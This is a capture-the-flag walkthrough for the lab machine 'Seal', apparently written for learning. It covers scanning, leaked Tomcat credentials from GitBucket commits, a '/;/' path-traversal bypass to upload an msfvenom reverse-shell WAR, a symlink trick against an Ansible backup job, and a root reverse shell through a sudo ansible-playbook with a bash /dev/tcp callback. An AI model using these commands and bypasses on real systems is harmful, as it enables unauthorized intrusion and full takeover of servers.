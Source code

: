 # Seal

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.190
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 06:12 EDT
Nmap scan report for 10.129.95.190
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
443/tcp  open  https
8080/tcp open  http-proxy
```

### Vegetables

Port 443 hosts a market page:

<figure><img src="../../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

We can do a `gobuster` scan on the website to find what it is available:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://10.129.95.190/ -k -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.95.190/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/03 06:16:19 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> http://10.129.95.190/images/]
/admin                (Status: 302) [Size: 0] [--> http://10.129.95.190/admin/]
/icon                 (Status: 302) [Size: 0] [--> http://10.129.95.190/icon/]
/css                  (Status: 302) [Size: 0] [--> http://10.129.95.190/css/]
/js                   (Status: 302) [Size: 0] [--> http://10.129.95.190/js/]
/manager              (Status: 302) [Size: 0] [--> http://10.129.95.190/manager/]
```

There's a `/manager` and `/admin` directory. The former returns 403, while the latter returns an error from Tomcat:

<figure><img src="../../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Interesting. Let's take a look at port 8080.

### GitBucket --> Tomcat Creds

Port 8080 is hosting a GitBucket instance:

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

We can create a new account and sign in to see if there are any existing repositories. Straight away, we see tons of push requests to the Market repository.

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

From this, we can find the changes made to the repository. From one of them, we can view the password for the administrator panel by viewing changes made to `tomcat-users.xml`.&#x20;

<figure><img src="../../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

However, we still cannot access the portal.&#x20;

### Directory Traversal --> RCE

While reading Hakctricks for Tomcat vulnerabilities, I found this:

{% embed url="https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/" %}

So by using `/;/`, we might be able to bypass the 403 given earlier. This works for this machine.

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

Using `tomcat:42MrHBf*z8{Z%`, we can access the Tomcat dashboard:

<figure><img src="../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Now we just need to generate a reverse shell with a `msfvenom`.&#x20;

```
$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war -o pwn.war      
Payload size: 13319 bytes
Final size of war file: 13319 bytes
Saved as: pwn.war
```

Then, we just need to upload this and run it. However, I did get blocked the first time when trying to upload. Reading more into the exploit, we can apparently append `/.;/` anywhere within the URL to bypass the check. After some trial and error, this URL worked:

{% code overflow="wrap" %}
```
https://10.129.95.190/manager/.;/html/upload?org.apache.catalina.filters.CSRF_NONCE=5F28315713273679760DD841AB5F1B53
```
{% endcode %}

Then, we can run our file and get a shell:

<figure><img src="../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Luis

We couldn't access the user flag as `tomcat`. While looking around, I found some interesting files in `/opt`.&#x20;

```
tomcat@seal:/opt$ ls
backups
tomcat@seal:/opt$ cd backups/
tomcat@seal:/opt/backups$ ls
archives  playbook
```

Within the `/playbook` directory, there was a YAML playbook script for Ansible that seems to be running every minute or so:

```
tomcat@seal:/opt/backups/playbook$ ls
run.yml
tomcat@seal:/opt/backups/playbook$ cat run.yml 
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files
```

This takes is used for backing the web directory up, and for some reason the `copy_links` variable has been set to True, indicating that this playbook follows symlinks. As such, the exploit is to basically create a symlink between the user's home directory and one of the files being backed up.&#x20;

Afterwards, we can take the newest backup and open it to find the user's home directory has also been backed up.&#x20;

```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7  2021 .
drwxr-xr-x 3 root root  4096 May  6  2021 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6  2021 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7  2021 uploads
$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

The `uploads` file is used because we have write access to it. Afterwards, we just need to open the backup made and head to the `uploads` file.&#x20;

```
tomcat@seal:/dev/shm$ tar zxf backup-2023-05-03-10\:42\:32.gz --force-local
tomcat@seal:/dev/shm$ ls
backup-2023-05-03-10:42:32.gz  dashboard  spare.gz
tomcat@seal:/dev/shm/dashboard/uploads$ ls -la
total 0
drwxr-x--- 3 tomcat tomcat  60 May  3 10:46 .
drwxr-x--- 7 tomcat tomcat 160 May  7  2021 ..
drwxr-x--- 9 tomcat tomcat 280 May  7  2021 luis
```

We can grab the user flag and also his SSH private key!

### To Root

Now that we are `luis`, we can check our `sudo` privileges:

```
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

So we can create our own playbook for a `root` reverse shell basically. I made one like this:

```
- hosts: localhost
  tasks:
  - name: shell
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'
```

Then, we can run the playbook and get a reverse shell as `root`.

```
$ nc -lvnp 4444
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.95.190] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted!
